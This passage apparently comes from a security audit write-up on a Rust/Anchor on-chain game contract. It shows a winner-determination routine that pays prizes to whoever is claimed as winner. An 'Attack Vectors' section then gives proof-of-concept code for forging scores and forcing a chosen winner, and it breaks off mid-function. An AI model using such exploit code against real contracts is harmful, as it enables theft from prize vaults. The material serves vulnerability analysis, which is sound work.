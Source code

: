 ```rust
    // Determine winning team based on winner
    if let Some(team) = get_player_team(&winner, &ctx.accounts.game_session)? {
        game_result.winning_team = team;
    }

    // Distribute rewards to claimed winner
    distribute_winnings(winner, &ctx.accounts.prize_vault)?;

    Ok(())
}
```

### Attack Vectors

#### 1. Direct Score Manipulation
```rust
pub fn manipulate_game_scores(
    ctx: Context<ScoreManipulation>
) -> Result<()> {
    let attacker = ctx.accounts.attacker.key();
    let game_session = &ctx.accounts.game_session;

    // Create fake high scores
    let mut manipulated_scores = HashMap::new();

    // Give attacker maximum score
    manipulated_scores.insert(attacker, u32::MAX);

    // Give all other players minimum scores
    for player in &game_session.players {
        if *player != attacker {
            manipulated_scores.insert(*player, 0);
        }
    }

    // Submit manipulated scores as game result
    let winner = determine_winner(
        get_winner_context(&ctx)?,
        manipulated_scores.clone()
    )?;

    assert_eq!(winner, attacker);

    msg!("Score manipulation successful: {} declared winner", attacker);

    Ok(())
}
```

#### 2. Winner Override Attacks
```rust
pub fn force_specific_winner(
    ctx: Context<WinnerOverride>,
    desired_winner: Pubkey
) -> Result<()> {
    let game_result = &mut ctx.accounts.game_result;

    // Method 1: Direct winner assignment
    game_result.winning_team = get_player_team(&desired_winner, &ctx.accounts.game_session)?
        .unwrap_or(0);

    // Method 2: Manipulate team scores
    if game_result.winning_team == 0 {
```